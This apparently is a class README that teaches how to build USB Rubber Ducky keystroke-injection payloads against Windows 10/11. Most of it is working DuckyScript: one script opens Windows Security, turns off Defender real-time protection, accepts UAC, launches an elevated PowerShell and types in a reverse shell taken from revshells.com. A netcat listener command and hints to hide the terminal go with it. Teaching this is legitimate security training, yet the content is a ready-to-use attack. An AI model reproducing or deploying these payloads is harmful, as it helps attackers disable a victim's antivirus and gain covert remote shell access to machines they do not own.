



# Rubber Ducky Advance

# Objectives ​
-   Create Basic and advance payloads.
-    Understand how to navigate the GUI
- Understand how to disable windows defender. 
- Understand Extensions 
-   Launching the payload

# Basic Shell
This is what a basic reverse shell looks like. 
~~~
REM Title:My Basic Reverse shell
REM Author: Ray
REM Description:Opens an reverse shell with powershell
REM Target: Windows 11/10

DELAY 3000 
REM ^^^ this is still a delay for 3 seconds
GUI r
REM ^^^ opens the run Window
DELAY 300
REM ^^^ Delay for 300 milliseconds
STRINGLN powershell -c <ReveShell payload>
REM ^^^ Enter payload
~~~
## Note:
You will have to replace "**\<ReveShell payload\>**" with one from https://www.revshells.com/. In this case the class will use the PowerShell #1 payload. (Don't forget to change the IP address to the listener. (kali computer))

# Setting Up Our C2 listener

 - C2 Listener is just a computer that the victim of the rubber ducky will try to connect to. (In most case it will be a kali/parrot machine with Netcat as the listener.)  
  - Command to start the Listener:
	 -  nc -lnvp 5757
    
    

## Note
It reminded to have the C2 listener on a cloud machine, so you don't have to worry about network problems. 

# What Happen When We Ran The Basic Payload.

When you ran the basic payload, you might have notice that it didn't work. But why? 
This basic payload, and all EDR/Anti malware know what a basic payload looks like. 

# Advance Payload
There are a few ways to bypass EDR/ Anti Malware services. but why spend so much time to develop a bypass when you can just turn off EDR/Anti malware. :thinking:

## Starting the Advance Payload.
Instead of using a 3000-millisecond delay, this payload will use Extension Detect-Ready module 

Extension in ducky script is just a fast way to import something in the Payload Studio IDE that might be use multiple time or in multiple payloads. 

 - To learn more about Extension https://docs.hak5.org/hak5-usb-rubber-ducky/advanced-features/extensions
~~~
EXTENSION DETECT_READY
    REM VERSION 1.1
    REM AUTHOR: Korben

    REM_BLOCK DOCUMENTATION
        USAGE:
            Extension runs inline (here)
            Place at beginning of payload (besides ATTACKMODE) to act as dynamic
            boot delay

        TARGETS:
            Any system that reflects CAPSLOCK will detect minimum required delay
            Any system that does not reflect CAPSLOCK will hit the max delay of 3000ms
    END_REM

    REM CONFIGURATION:
    DEFINE #RESPONSE_DELAY 25
    DEFINE #ITERATION_LIMIT 120

    VAR $C = 0
    WHILE (($_CAPSLOCK_ON == FALSE) && ($C < #ITERATION_LIMIT))
        CAPSLOCK
        DELAY #RESPONSE_DELAY
        $C = ($C + 1)
    END_WHILE
    CAPSLOCK
END_EXTENSION
~~~
This extension will automatically launch the payload when the computer is ready. 
## Navigate GUI to disable windows Defender settings
~~~
REM Open Windows Defender Settings
CTRL ESC
DELAY 750
STRING windows security
DELAY 250
ENTER
DELAY 1000
ENTER
~~~

 1. Ctrl Esc is a keyboard shortcut for windows start menu. To learn more about Microsoft keyboard shortcut:  https://support.microsoft.com/en-us/windows/keyboard-shortcuts-in-windows-dcc61a57-8ff0-cffe-9796-cb9706c75eec\
 2. Type out windows security. 
 3. Press Enter to open the windows security.
 4.  Press Enter again to go from home to Virus & threat protection.
~~~
REM Navigate to Manage Settings
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
ENTER
DELAY 500
~~~

 - You can navigate most GUI with tab key to move forward and Shift + tab to go back.
 1. So, this part will move from the Quick Scan button to manage settings under right under virus & threat protection settings and Enter the manage settings button.
    
    

~~~
REM Open and turn off Realtime Protection
SPACE
DELAY 1000
ALT y
DELAY 1000
~~~

1. This part will hit the space bar to toggle the on/off setting.
    

1.  When this happens, the UAC will active and ask for yes or no. ALT + y will hit the yes button.
    

~~~
REM Exit security settings
ALT F4
DELAY 500
~~~

 1. This will just close the Windows security tab.

~~~
REM Open elevated PowerShell
GUI r
DELAY 500
STRING powershell
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 1000
~~~

 1. Opens a run prompt.
 2. Types out PowerShell
 3.  Ctrl + shift + Enter when in the run prompt will open as admin
 4. hit yes in the UAC to launch PowerShell. 
~~~
REM Enter reverse shell and hides the terrminal
STRINGLN <ReveShell payload>
DELAY 200
GUI DOWNARROW
~~~
Note: don't forget to change the "\<ReveShell Payload\>" to the PowerShell #1 from the ReveShell Site (don't forget about the IP).
# Generate and putting it on the ducky. 
[Intro ducky class](/../main/Rubber-Ducky-Intro/README.md#generate-payload-and-getting-it-on-the-ducky)
# Notes
- You will most likely have to play with the delay if it does run right.
-   The computers must be on the same network. Or host the listener on the cloud. ​ 
-   This payload will take about 25 seconds or more, if you have to change the delay for slower computers.​

# Help full link
- Payload IDE(Integrated development environment): https://payloadstudio.hak5.org/community/
- A simple library of reverse shell: https://www.revshells.com/
- Ducky Quick Reference Guild​​: https://docs.hak5.org/hak5-usb-rubber-ducky/duckyscript-tm-quick-reference​​
- Hak5 Ducky Payload Library​​: https://github.com/hak5/usbrubberducky-payloads​
- Microsoft Keyboard shortcuts: https://support.microsoft.com/en-us/windows/keyboard-shortcuts-in-windows-dcc61a57-8ff0-cffe-9796-cb9706c75eec\
- Ducky Extension: https://docs.hak5.org/hak5-usb-rubber-ducky/advanced-features/extensions
